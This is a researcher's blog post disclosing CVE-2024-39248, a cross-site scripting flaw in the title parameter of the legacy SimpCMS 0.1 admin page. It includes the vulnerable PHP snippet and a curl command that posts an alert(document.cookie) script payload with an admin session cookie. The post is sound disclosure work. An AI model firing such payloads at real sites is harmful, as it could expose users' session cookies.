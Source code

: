 ```yaml
---
publishDate: 2024-10-21T00:00:00Z
author: Jason Jacobs
title: How I got my first CVE published — CVE-2024–39248
excerpt: It first started with a little exploration of a CMS software titled SimpCMS 0.1, which had its last release in October 2010 on SourceForge.
image: https://images.unsplash.com/photo-1570354181552-af3b38934470?auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
category: Vulnerability Disclosure
tags:
  - cve
  - simp cms
metadata:
  canonical: https://jason-jacobs.dev/blog
---
```

# Discovering XSS in SimpCMS 0.1: A Legacy CMS Vulnerability Analysis

## Introduction
It first started with a little exploration of a CMS software titled SimpCMS 0.1, which had its last release in October 2010 on SourceForge. Given that this 14-year-old end-of-life (EOL) software already had two exploits published on ExploitDB, I decided to conduct a personal code review to discover any additional vulnerabilities.

## Initial Setup Challenges
Setting up the latest 14-year-old release proved challenging due to the code's use of deprecated PHP functions such as `mysql_connect`. While security best practices and OWASP recommendations existed even back then, they appeared to be overlooked in this implementation.

## Vulnerability Discovery
### Location
The vulnerability was found in the admin interface at the path `/admin.php?title=`

### Vulnerable Parameter
A parameter named `title` in the admin interface was discovered to be susceptible to XSS attacks, allowing execution of arbitrary web scripts or HTML through crafted payloads.

### Vulnerable Code Snippet
```php
if (isset($_POST['newSector']) && ($_POST['title'] != '' && ($_POST['abbrev'] != ''))) // New Sector has been submitted.
{
    $Db->insert(TABLE_PREFIX . "sectors");
    header('location: index.php?module=overview&sector=' . $Db->insert_id());
}
```

## Exploitation
The vulnerability can be exploited using a simple cURL command with an authenticated admin session cookie:

```bash
curl -X POST "http://site.com/SimpCMS/admin/index.php" \
     -d "title=<script>alert(document.cookie)</script>&abbrev=random&newSector=" \
     -b "PHPSESSID=COOKIEHERE"
```

## Additional Notes
- The software uses PureEdit 1.4.1 as its editor component, though this wasn't investigated further for this vulnerability report.
- Many legacy software applications still exist that no longer receive updates and use deprecated PHP versions (5.5 and earlier) along with outdated mysql functions.

## Publications and References
1. [PacketStorm Security](https://packetstormsecurity.com/files/179219/SimpCMS-0.1-Cross-Site-Scripting.html)
2. [CVE-2024-39248](https://www.cve.org/CVERecord?id=CVE-2024-39248)
3. [Vulners Database Entry](https://vulners.com/cve/CVE-2024-39248)
4. [GitHub PoC Repository](https://github.com/jasonthename/CVE-2024-39248)

## Conclusion
The discovery of this vulnerability highlights the importance of continued security research on legacy software. Even if applications are no longer maintained, identifying and documenting their vulnerabilities contributes to the security community's knowledge base.